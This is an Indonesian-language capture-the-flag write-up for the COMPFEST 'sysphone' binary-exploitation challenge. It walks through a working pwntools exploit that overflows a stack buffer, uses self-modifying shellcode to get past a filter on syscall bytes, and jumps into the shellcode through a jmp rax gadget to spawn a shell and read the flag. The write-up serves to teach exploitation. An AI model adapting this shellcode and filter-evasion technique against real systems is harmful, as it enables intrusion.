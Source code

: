 # Penjelasan kode panitia

```py
from pwn import *

context.arch = "amd64"

# p = process("./chall")
p = remote("ctf.compfest.id", "7003")
```

* Pakai **Pwntools** dan target **amd64**.
* Terkoneksi ke service remote `ctf.compfest.id:7003` (bisa juga lokal dengan `process`).

```py
# https://www.exploit-db.com/exploits/46907
shellcode = bytes.fromhex("4831F65648BF2F62696E2F2F736857545F6A3B584831D2990F05")
```

* Shellcode klasik `execve("/bin//sh")` (varian dari exploit-db 46907).
* Di ujungnya ada **`0F 05`** = instruksi `syscall` (wajib untuk `execve`).

```py
filtered_shellcode = shellcode[:-1] + b"\x00"
```

* Tantangan **mem-filter pasangan byte `0f 05`** saat input dibaca.
* Trik: **ubah byte terakhir `0x05 → 0x00`** saat dikirim, sehingga input **tidak** mengandung `0f 05`.
* Nanti byte `0x05` akan **dipulihkan kembali di memori** (self-modifying).

```py
retoverride = p64(0x000000000040116C)  # Gadget for: jmp rax
```

* Di biner ada gadget **`jmp rax`** (alamat fix karena **non-PIE**).
* Setelah fungsi baca (custom `fgets`) selesai, **RAX = alamat buffer**.
* Kita timpa **RET** → eksekusi gadget → **lompat ke buffer** (shellcode).

```py
# sub    rsp,0x110
allocate_rsp = bytes.fromhex("4881EC10010000")

# mov    WORD PTR [rsp+0x107],0x5
restore_shellcode = bytes.fromhex("66C78424070100000500")
```

* Self-modifying step:

  * `sub rsp, 0x110` → **memundurkan RSP** supaya **RSP = awal buffer** (detail di bawah).
  * `mov word [rsp+0x107], 0x0005` → **menulis kembali `0x05`** ke **byte terakhir** shellcode (yang tadi kita set `0x00`). Karena write-nya **word** (2 byte, `05 00`), byte `0x00` “tumpah” ke offset berikutnya (sudah area saved RBP filler—aman).

```py
BUFFER_SIZE = 0x108  # We will treat saved rbp as part of the buffer
NOP_LENGTH = (
    BUFFER_SIZE - len(allocate_rsp) - len(restore_shellcode) - len(filtered_shellcode)
)
payload = (
    b"1000\n"
    + asm("nop") * NOP_LENGTH
    + allocate_rsp
    + restore_shellcode
    + filtered_shellcode
    + retoverride
)
```

* **Buffer** ukuran `0x100`; di stack tepat setelahnya ada **saved RBP (8B)** → total **`0x108`** sudah melewati saved RBP, *tepat sebelum RET*. Di sini mereka **menganggap saved RBP bagian dari “ruang buffer”** untuk pemaketan.
* **Penjajaran (alignment) kunci**: mereka menghitung `NOP_LENGTH` sehingga:

  ```
  [NOP * N][sub rsp,0x110][mov word [rsp+0x107],0x0005][shellcode’]
  ^ awal buffer                                     ^ byte terakhir shellcode'
  ```

  Artinya **byte terakhir `filtered_shellcode`** tepat di offset **`0x107`** dari **awal buffer**.
  Setelah `sub rsp,0x110` → **RSP = awal buffer**, maka `mov word [rsp+0x107], 0x0005` akan menulis **`0x05`** ke byte itu — memulihkan **`… 0F 05`** **di memori**, bukan di input.
* Terakhir append `retoverride` untuk **mengganti RET** dengan alamat gadget `jmp rax`.
* Mereka menaruh `"1000\n"` di *depan payload*—ini “menjawab” prompt `length:` secara *nyampur* (bisa jalan, tapi lebih rapi biasanya kita kirim length dan data di panggilan terpisah).

```py
p.sendline(payload)
p.interactive()
```

* Kirim payload one-shot; masuk mode interaktif.
  Karena shellcode menjalankan `/bin/sh`, kamu bisa ketik `ls`, `cat flag.txt`, dll.

### Kenapa ini bekerja (urutan eksekusi)

1. Program baca **length** dan **data** ke buffer stack `[rbp-0x100]`.
2. Selesai baca, custom `fgets` **return** → **`RAX = ptr buffer`**.
3. Fungsi **`leave; ret`** → `RET` yang telah kita timpa → **alamat gadget `jmp rax`**.
4. Gadget men-**jump** ke alamat di RAX → start buffer → eksekusi:

   * `NOP …` (lewat)
   * `sub rsp, 0x110` → **RSP** jadi **awal buffer**,
   * `mov word [rsp+0x107], 0x5` → pulihkan `… 0F 05` tepat di **byte terakhir** shellcode,
   * lanjut ke **shellcode** (yang sekarang valid) → spawn `/bin/sh` → kamu `cat flag.txt`.

---

# Write-up: “sysphone” (Binary Exploitation)

## Ringkasan

* **Kategori**: pwn / binary exploitation
* **Vuln**: stack buffer overflow, custom read dengan filter byte `0f 05`
* **Mitigasi**: **NX off** (stack executable), **non-PIE** (alamat code fix)
* **Tujuan**: eksekusi shellcode / dapatkan flag
* **Trik inti**: **self-modifying shellcode** (pulihkan `syscall` di memori), atau **2-stage XOR decoder**

## Recon

* Binary 64-bit, **ET\_EXEC (non-PIE)** → alamat gadget fix.
* **NX off** → boleh eksekusi di stack.
* Fungsi rentan: baca **panjang** dari user, lalu **data** ke buffer stack 0x100, kemudian `leave; ret`.
* Custom `fgets` **mem-filter**: kalau input mengandung pasangan byte **`0f 05`** → program exit.
* Setelah `fgets` return, **`RAX` berisi pointer buffer**. Di `.text` ada gadget **`jmp rax`** di **`0x40116c`** (dan opsi lain `0x4011ae`).

## Strategi eksploit

1. **Overflow** hingga **RET** (offset `0x100 + 8 = 0x108`), isi **RET = 0x40116c** (`jmp rax`).

2. **Shellcode** harus **tanpa** pasangan `0f 05` di **INPUT**:

   * **Jalur A (intended / panitia)**: **self-modifying**

     * kirim shellcode `execve("/bin//sh")` tapi **ubah byte terakhir `0x05→0x00`**,
     * jalankan instruksi yang menulis kembali `0x05` **di memori** tepat pada lokasi byte terakhir shellcode,
     * lalu shellcode utuh berjalan.
   * **Jalur B (alternatif)**: **2-stage XOR**

     * stage-1 (tanpa syscall) meng-XOR stage-2 di memori, lalu lompat ke sana.

3. **Layout** (jalur A):

   ```
   [ NOP * N ]
   [ sub rsp, 0x110 ]                    ; RSP -> awal buffer
   [ mov word [rsp+0x107], 0x0005 ]      ; pulihkan byte terakhir syscall
   [ shellcode' (byte terakhir = 0x00) ] ; sekarang sudah valid di memori
   [ saved RBP filler (tercakup di N) ]
   [ RET = 0x40116c (jmp rax) ]
   ```

   `N` dihitung supaya **byte terakhir shellcode** tepat berada di **offset 0x107** dari **awal buffer**.

## Eksploit (kode panitia, worked)

```py
from pwn import *
context.arch = "amd64"
p = remote("ctf.compfest.id", "7003")

shellcode = bytes.fromhex("4831F65648BF2F62696E2F2F736857545F6A3B584831D2990F05")
filtered = shellcode[:-1] + b"\x00"             # hapus pasangan 0f 05 di input

jmp_rax = p64(0x40116C)                          # gadget: jmp rax (non-PIE)
alloc   = bytes.fromhex("4881EC10010000")        # sub rsp,0x110
restore = bytes.fromhex("66C78424070100000500")  # mov word [rsp+0x107],0x5

BUF = 0x108
NOPLEN = BUF - len(alloc) - len(restore) - len(filtered)

payload = b"1000\n" + asm("nop")*NOPLEN + alloc + restore + filtered + jmp_rax
p.sendline(payload)
p.interactive()
```

## Output

```
js overflow me gng
length: data: $ ls
chall
flag.txt
$ cat flag.txt
COMPFEST17{5H3lLc0d1n9_15_480U7_cR3471V17Y_29d3591b4c}
```

## Catatan & jebakan

* **Filter input** hanya saat **membaca** — aman jika `syscall` dibentuk **setelahnya** (di memori).
* Teknik self-modifying **sensitif offset**: `sub rsp,0x110` dan `[rsp+0x107]` harus pas.
* IO service biasanya minta **`length:` lalu `data:`**; kode panitia menyisipkan `"1000\n"` di payload (kerapihannya bisa ditingkatkan dengan `sendlineafter(...)` + `sendafter(...)`).
* Alternatif **paling robust**: 2-stage XOR decoder (tidak perlu mikir offset tumpul).

